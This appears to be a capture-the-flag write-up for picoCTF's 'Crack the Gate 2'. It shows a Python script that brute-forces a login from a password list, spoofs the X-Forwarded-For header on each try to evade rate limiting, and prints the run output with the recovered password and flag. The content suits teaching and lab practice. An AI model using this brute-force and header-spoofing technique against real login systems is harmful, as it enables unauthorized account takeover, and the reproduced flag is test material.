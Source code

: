 # Crack the Gate 2

<img width="926" height="659" alt="image" src="https://github.com/user-attachments/assets/20373db0-be20-4d5e-ab09-fd62efa4d1d9" />

**Tag:** `Web Exploitation`

**Description:** 
>The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret. The website is running here. Can you try to log in?. Download the passwords list here.

**Attachments:** `http://amiable-citadel.picoctf.net:57426/` `passwords.txt`

**Hints:**

<details>
<summary>Hint 1</summary>

What IP does the server think you’re coming from?

</details>

<details>
<summary>Hint 2</summary>
  
Read more about X-forwarded-For

</details>

</details>

<details>
<summary>Hint 3</summary>
  
You can rotate fake IPs to bypass rate limits.

</details>

**Author:** Yahaya Meddy

**Solved:** `791 users solved`

---

# Solution

<img width="1000" height="500" alt="image" src="https://github.com/user-attachments/assets/888e86ff-4756-4977-8937-2591afb78c03" />

Just like before, a login UI is provided with an email and password form again. but what's different this time is that we have to make the server think that we are coming from another IP. and we are also given a list of passwords that are used to enter the dashboard perhaps. for that we can make a solver like the following


```python
import requests

url = "http://amiable-citadel.picoctf.net:57426//login"
email = "ctf-player@picoctf.org"

with open('passwords.txt', 'r') as pw:
    passwords = [password_line.strip() for password_line in pw]

for idx, password in enumerate(passwords):
    fake_ip = f"123.45.67.{idx}"
    headers = {"X-Forwarded-For": fake_ip}
    data = {"email": email, "password": password}

    r = requests.post(url, 
                    data=data, 
                    headers=headers, 
                    allow_redirects=False)
    if r.status_code == 302 or "picoCTF" in r.text:
        print(f"Password Hitted -> {password} -> result: {r.text}")
    else:
        print(f"{fake_ip} -> {email}:{password} failed ")
```

In this code, I created a fake IP loop, which is used to trick the server into thinking we're coming from a different IP. For this, we also use X-Forwarded-For. Next, as usual, we enter the credentials and password using the password list provided earlier.

then run the script and get the flag

```bash
 zsh > python solve.py
123.45.67.0 -> ctf-player@picoctf.org:FvQqRDID failed 
123.45.67.1 -> ctf-player@picoctf.org:o28yxJnz failed 
123.45.67.2 -> ctf-player@picoctf.org:dzXLq6iI failed 
123.45.67.3 -> ctf-player@picoctf.org:gQwoROCU failed 
123.45.67.4 -> ctf-player@picoctf.org:TqdQCjNn failed 
123.45.67.5 -> ctf-player@picoctf.org:VJSDcyso failed 
123.45.67.6 -> ctf-player@picoctf.org:wCLZCkww failed 
123.45.67.7 -> ctf-player@picoctf.org:GxjOadW5 failed 
123.45.67.8 -> ctf-player@picoctf.org:3pcv6C7j failed 
123.45.67.9 -> ctf-player@picoctf.org:F0v4Jsmr failed 
123.45.67.10 -> ctf-player@picoctf.org:y9JoEDYm failed 
Password Hitted -> QKCdmMKy -> result: {"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_44b93275}"}
123.45.67.12 -> ctf-player@picoctf.org:fnW92UyB failed 
123.45.67.13 -> ctf-player@picoctf.org:eMy1d5JZ failed 
123.45.67.14 -> ctf-player@picoctf.org:eturI0N3 failed 
123.45.67.15 -> ctf-player@picoctf.org:pBT4eP6k failed 
123.45.67.16 -> ctf-player@picoctf.org:o1QeNZ3M failed 
123.45.67.17 -> ctf-player@picoctf.org:hdd1CWXH failed 
123.45.67.18 -> ctf-player@picoctf.org:R6flYmhD failed 
123.45.67.19 -> ctf-player@picoctf.org:cRdawYlr failed
```

---

# Flag: picoCTF{xff_byp4ss_brut3_44b93275}
